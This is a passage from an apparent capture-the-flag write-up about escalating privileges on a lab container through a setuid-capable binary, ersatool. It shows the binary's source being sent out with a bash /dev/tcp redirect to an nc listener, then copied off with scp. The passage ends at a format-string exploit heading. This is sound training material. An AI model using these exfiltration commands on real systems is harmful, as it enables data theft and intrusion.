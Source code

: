 
It could be running on a cron periodically, but then it would still fail when
the webapp calls it. The binary has the `setuid` capability:

    
    
    www-data@pki:~$ getcap /usr/bin/ersatool 
    /usr/bin/ersatool = cap_setuid+eip
    

So if there’s some way to exploit this binary and get it to run code, I can
get root in this container.

### Exfil

To look at the binary, I need to get a copy back to my VM. One option would be
to base64 encode it and then just copy and paste it. Alternatively, I can send
it to web, and then `scp` back to my host. I’ll start `nc` listening on web,
pipe the file into `/dev/tcp` on pki:

    
    
    www-data@pki:~$ cat /usr/src/ersatool.c > /dev/tcp/192.168.254.2/4444
    

It arrives at web:

    
    
    www-data@web:~$ /tmp/nc -lnvp 4444 > /tmp/0xdf
    Ncat: Version 6.49BETA1 ( http://nmap.org/ncat )
    Ncat: Listening on :::4444
    Ncat: Listening on 0.0.0.0:4444
    Ncat: Connection from 192.168.254.3.
    Ncat: Connection from 192.168.254.3:45386.
    

Now I’ll pull that to my host:

    
    
    oxdf@parrot$ scp -i ~/keys/static-www-data-172.20.0.10 www-data@172.20.0.10:/tmp/0xdf ersatool.c
    0xdf                                                 100% 5729   272.0KB/s   00:00
    

I’ll do the same with `ersatool`, and then check the hashes on both:

    
    
    www-data@pki:~$ md5sum /usr/bin/ersatool /usr/src/ersatool.c 
    9ac82feda66338eafaf2dc6e1d602131  /usr/bin/ersatool
    d258f3c0bf1945e43314617de8f83dd1  /usr/src/ersatool.c
    
    
    
    oxdf@parrot$ md5sum ersatool*
    9ac82feda66338eafaf2dc6e1d602131  ersatool
    d258f3c0bf1945e43314617de8f83dd1  ersatool.c
    

### Format String Exploit

#### Background
